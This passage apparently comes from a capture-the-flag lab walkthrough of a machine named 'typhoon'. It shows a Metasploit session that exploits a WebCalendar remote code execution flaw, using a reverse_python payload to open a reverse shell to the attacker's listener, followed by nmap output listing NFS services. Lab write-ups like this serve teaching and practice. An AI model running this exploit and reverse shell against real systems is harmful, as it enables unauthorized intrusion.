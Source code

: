The exact version this machine is running has a Metasploit module readily available! Isn't that just convenient?

In the Metasploit console:

```
msf5 > use exploit/linux/http/webcalendar_settings_exec
msf5 exploit(linux/http/webcalendar_settings_exec) > set rhosts calendar.typhoon.local
rhosts => calendar.typhoon.local
msf5 exploit(linux/http/webcalendar_settings_exec) > set vhost calendar.typhoon.local
vhost => calendar.typhoon.local
msf5 exploit(linux/http/webcalendar_settings_exec) > set targeturi /
targeturi => /
msf5 exploit(linux/http/webcalendar_settings_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/http/webcalendar_settings_exec) > set lhost 10.99.78.205
lhost => 10.99.78.205
msf5 exploit(linux/http/webcalendar_settings_exec) > exploit
[*] Started reverse TCP handler on 10.99.78.205:4444 
[*] Housing php payload...
[*] Loading our payload...
[*] Command shell session 1 opened (10.99.78.205:4444 -> 10.99.59.112:42570) at 2019-02-15 13:52:20 -0500
/bin/bash -i
bash: cannot set terminal process group (2524): Inappropriate ioctl for device
bash: no job control in this shell
www-data@typhoon:/var/www/html/calendar/includes$ whoami
whoami
www-data
```

And we're in with a shell.

### NFS

```
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      34758/udp  mountd
|   100005  1,2,3      59107/tcp  mountd
|   100021  1,3,4      39146/tcp  nlockmgr
|   100021  1,3,4      45519/udp  nlockmgr
|   100024  1          50443/tcp  status
|   100024  1          59636/udp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
```

This indicates that the machine has an NFS server running. Let's check it out.
